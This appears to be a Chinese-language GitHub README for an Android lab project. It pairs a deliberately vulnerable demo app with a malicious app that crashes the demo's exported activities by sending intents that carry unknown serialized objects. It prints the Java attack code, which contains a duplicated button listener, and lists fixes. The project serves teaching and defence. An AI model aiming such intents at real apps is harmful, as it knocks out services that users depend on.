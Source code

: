 # Android APP通用型拒绝服务漏洞

## DenialServiceApp

该项目模拟包含拒绝服务漏洞的APP，其中的`ParcelActivity`与`SerialActivity`的导出权限被设置成了`true`，但并没有对接收到的intent进行有效性判断与校验；而`SafeSerialActivity`虽然由于某种原因权限设置为可导出，但对Intent中的数据进行了try…catch异常捕获，所以是安全的

## DenialServiceAttack

该项目模拟恶意应用，对DenialServiceApp进行攻击，构造一个自定义的序列化对象传入intent，来启动上述APP，导致其无法处理而崩溃。

攻击代码如下，构造一个空的序列化对象传入

```java
        btnSerial.setOnClickListener(v -> {
            Intent intent = new Intent();
            intent.setClassName("com.example.denialserviceapp", "com.example.denialserviceapp.SerialActivity");
//            intent.putExtra("user", new SUser());
            intent.putExtra("data", new SUser());
            startActivity(intent);

        });
        btnParcel.setOnClickListener(v -> {
            Intent intent = new Intent();
            intent.setClassName("com.example.denialserviceapp", "com.example.denialserviceapp.ParcelActivity");
            intent.putExtra("user", new PUser());
            startActivity(intent);
        });
        btnSafeSerial.setOnClickListener(v -> {
            Intent intent = new Intent();
            intent.setClassName("com.example.denialserviceapp", "com.example.denialserviceapp.SafeSerialActivity");
            intent.putExtra("user", new SUser());
            startActivity(intent);
        });
        btnSafeSerial.setOnClickListener(v -> {
            Intent intent = new Intent();
            intent.setClassName("com.example.denialserviceapp", "com.example.denialserviceapp.StringActivity");
            intent.putExtra("data", new SUser());
            startActivity(intent);
        });
```



第一个攻击的报错信息

![image-20220711162054488](denial_of_service/image-20220711162054488.png)

第四个攻击的报错信息

![image-20220711163106654](denial_of_service/image-20220711163106654.png)



如果接收Intent的目的组件没有对Intent中的信息进行校验或者异常捕获，传入任何的序列化对象都会导致`get…Extra()`方法对数据进行解析时、因找不到序列化的类而抛出异常导致应用崩溃



## 修复建议

-   非必要导出的组件设置其`exported`属性为`false`。
-   导出的组件中进行权限的控制，限制第三方应用访问
-   对于`get...Extra()`方法及之后的变量设置异常捕获，防止应用崩溃
